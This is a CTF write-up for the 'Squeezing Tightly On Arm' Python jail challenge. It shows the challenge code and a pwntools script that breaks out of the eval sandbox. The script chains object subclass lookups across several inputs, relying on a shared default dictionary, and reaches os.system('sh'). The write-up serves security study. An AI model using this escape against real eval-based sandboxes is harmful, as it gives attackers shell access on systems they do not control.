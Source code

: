 # TBTL CTF 2024 Squeezing Tightly On Arm

```python
import sys
version = sys.version_info
del sys

FLAG = 'TBTL{...}'
del FLAG


def check(command):

    if len(command) > 120:
        return False

    allowed = {
        "'": 0,
        '.': 1,
        '(': 1,
        ')': 1,
        '/': 1,
        '+': 1,
        }

    for char, count in allowed.items():
        if command.count(char) > count:
            return False

    return True


def safe_eval(command, loc={}):

    if not check(command):
        return

    return eval(command, {'__builtins__': {}}, loc)


for _ in range(10):
    command = input(">>> ")

    if command == 'version':
        print(str(version))
    else:
        safe_eval(command)
```

Requirements:

1. No `'`: Use `"` for strings
2. Some characters may appear only once: save intermediate values to locals
3. No builtins: Use `().__class__.__base__.__subclasses__()` to bypass

The major problem here, is that the default argument `loc={}` is shared between calls. So the locals array is only one and shared between calls to `safe_eval`. So we can simply cut the attack `().__class__.__base__.__subclasses__()[158].__init__.__globals__["system"]["sh"]` into multiple steps:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os._wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

p = process(["python3", "squeezing_tightly_on_arm.py"])

# A=().__class__
p.recvuntil(b">>> ")
p.sendline(b"[A:=().__class__]")

p.recvuntil(b">>> ")
# B=().__class__.__base__
p.sendline(f"[B:=A.__base__]".encode())

p.recvuntil(b">>> ")
# C=().__class__.__base__.__subclasses__()
# O=C[os_index]=<class 'os._swap_close'>
p.sendline(f"[C:=B.__subclasses__(),O:=C[{os_index}]]".encode())

# O=<class 'os._wrap_close'>.__init__
p.recvuntil(b">>> ")
p.sendline(f"[O:=O.__init__]".encode())

# <class 'os._wrap_close'>.__init__.__globals__["system"]("sh")
p.recvuntil(b">>> ")
p.sendline(f'[O.__globals__["system"]("sh")]'.encode())

p.interactive()
```

References: [TBTL CTF 2024 (Pwn)](https://ssongkit.tistory.com/808).
